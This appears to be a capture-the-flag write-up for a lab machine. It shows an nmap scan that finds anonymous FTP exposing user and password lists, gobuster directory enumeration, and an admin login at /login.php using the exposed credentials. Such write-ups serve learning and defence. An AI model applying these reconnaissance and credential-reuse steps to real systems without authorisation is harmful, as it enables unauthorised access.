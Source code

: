 # Php & Ftp

## Scan

```bash
nmap -T5 --min-rate 100000 -sC -sV 10.129.106.10
```

### Result

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.57
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix
```

So the ftp server allowes anonymous users, and has obviously two files, seems like username and passwords.

```bash
# allowed.userlist

aron
pwnmeow
egotisticalsw
admin
```

```bash
# allowed.userlist.passwd

root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

So there's just 16 combinations of credentials (if this two files ARE REALLY the credentials).

## Scan Web

```bash
gobuster dir -u http://10.129.106.10 -x html,php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

```text
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.106.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              -r
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2022/04/25 18:59:06 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577] 
/assets               (Status: 301) [Size: 315] [--> http://10.129.106.10/assets/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.106.10/css/]   
/js                   (Status: 301) [Size: 311] [--> http://10.129.106.10/js/]    
/logout.php           (Status: 302) [Size: 0] [--> login.php]
```

## Exploit

We can try login at /login.php now.

![login page](./images/Screenshot_20220425_190445.png)

And we logged in successfully with:

```text
username: admin
password: rKXM59ESxesUFHAd
```

![flag](./images/Screenshot_20220425_190915.png)
